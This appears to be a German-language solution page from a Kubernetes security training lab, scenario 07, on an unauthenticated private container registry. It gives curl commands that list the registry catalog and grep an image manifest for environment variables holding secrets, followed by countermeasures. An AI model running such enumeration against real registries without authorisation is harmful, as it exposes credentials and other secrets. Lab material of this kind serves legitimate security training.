



# Szenario 07 – Attacking Private Container Registry

- **Kategorie**: Secrets & Supply Chain
- **Einstieg**: `http://127.0.0.1:1235` (Pod `app=poor-registry`)

## Kurzinfo & Risiko
Die interne Container Registry ist ohne Authentifizierung erreichbar und enthält Images mit sensiblen Umgebungsvariablen.



## Solution
```bash
# Registry API v2 und Image-Katalog abfragen
curl http://127.0.0.1:1235/v2/
curl http://127.0.0.1:1235/v2/_catalog

# Manifest abrufen und nach ENV-Variablen mit dem Flag filtern
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest | grep -i env
```





## Gegenmaßnahmen
- Container Registries immer mit Authentifizierung/RBAC absichern (z. B. Azure ACR mit Entra ID) und keine Secrets in Images einbacken.

---
[← Vorheriges Szenario](./scenario-06.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-08.md)
